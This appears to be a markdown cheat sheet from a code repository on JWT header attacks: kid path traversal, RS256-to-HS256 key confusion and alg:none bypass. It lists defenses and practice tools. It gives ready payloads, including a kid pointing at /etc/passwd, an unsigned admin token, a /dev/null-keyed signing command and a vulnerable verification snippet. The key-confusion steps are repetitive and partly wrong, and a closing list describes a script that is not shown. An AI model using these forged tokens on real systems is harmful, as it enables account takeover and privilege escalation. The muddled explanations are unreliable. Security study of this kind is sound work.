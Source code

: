# 🔐 JWT Header Injection & `kid` Manipulation Exploits

JWT (JSON Web Tokens) are used for stateless authentication. Poor validation of headers like `alg` and `kid` can result in **critical bypasses** and **privilege escalation**.

---

## 🧠 Understanding `kid`

`kid` stands for **Key ID**. It’s used by the server to decide **which key** to use to verify a JWT.

Attackers can **manipulate this value** to:
- Point to arbitrary files
- Force the app to use attacker-controlled keys
- Trigger local file inclusion or path traversal

---

## ☠️ Common Exploits

### 🔸 1. `kid` File Path Injection (LFI or Confusion)

```json
{
  "alg": "HS256",
  "kid": "../../../../../etc/passwd"
}
```
Backend behavior (vulnerable):

```javascript
const keyPath = `keys/${header.kid}`;
const keyContent = fs.readFileSync(keyPath);
const key = fs.readFileSync(`keys/${header.kid}.pem`);
jwt.verify(token, key);
```

🔁 If file content is read as HMAC key — attacker can use predictable file contents as signing material.

🔸 2. Public Key ➝ HMAC Confusion Attack
This is key confusion between asymmetric (RS256) and symmetric (HS256) algorithms.

Steps:
Get server’s public key (via .well-known/jwks.json, etc).
Forge a JWT with the following header:
```json
{
  "alg": "HS256",
  "kid": "<server_public_key>"
}
```
Generate a JWT with the manipulated header.
Send the forged token to the server.
🔁 Server reads the public key from disk (`keys/public.pem`) and tries to verify the token.
🔁 Since the public key is treated as an HMAC secret, it gets hashed before being used.
🔁 The hash matches the expected HMAC digest, so the server accepts the token.
Modify header:

```json
{
  "alg": "HS256",
  "kid": "public.pem"
}
```
Use the public key as the HMAC secret to sign a token.
Send the forged token to the server.
🔁 Server verifies token with public key (asymmetric) but treats it as an HMAC (symmetric) key.
Server accepts it (believing it's valid).
🔁 Server believes the token was signed correctly because it matches the public key.
🔁 The server thinks the token is valid even though it wasn't signed properly.
🔁 This allows attackers to impersonate users or gain unauthorized access.
🧨 Now you're authenticated as any user — including admin.
🔸 3. alg: none Attack
JWT header:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```
No signature is added. If the server skips validation for alg: none, attacker can forge any payload.
Result: Admin access without knowing the secret or key.

🧪 Example Payloads
1. Unsigned Token (alg: none)
```json
eyJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```
2. Tampered HS256 Token with LFI kid
```json
{
  "alg": "HS256",
  "kid": "../../../dev/null"
}
```
Sign using:
```javascript
// Using jwt-cli tool
jwt encode --alg HS256 --secret "$(cat /dev/null)" '{"user":"admin"}'
```

### 🛡️ Defenses
❌ Do not allow alg: none — ever.

✅ Enforce algorithm types on server (e.g., only RS256).

🧱 Never allow file paths in kid.

🔐 Use robust libraries (PyJWT, jsonwebtoken) with strict settings.

✋ Reject tokens with unknown or untrusted kid.

### 🛠 Tools to Practice

- jwt_tool.py
- AuthAnalyzer
- jwt.io
- Postman with Bearer header injection
- Burp Suite Repeater + Decoder

### 📌 Pro Tip
If the server uses a JWKS endpoint (/.well-known/jwks.json), try:
Swapping in your own public key with matching kid
Attacking the key rotation process
🔴 Impact: Full account takeover, privilege escalation, and unauthenticated admin access.


## What the script now demonstrates:
- ALG=none bypass - Creates unsigned tokens
- KID path traversal - LFI attempts via KID header manipulation
- Malicious KID payloads - SQL injection, XSS, and edge cases
- Token structure analysis - Decoding and header inspection
- Algorithm confusion attacks - RS256→HS256 vulnerability concept
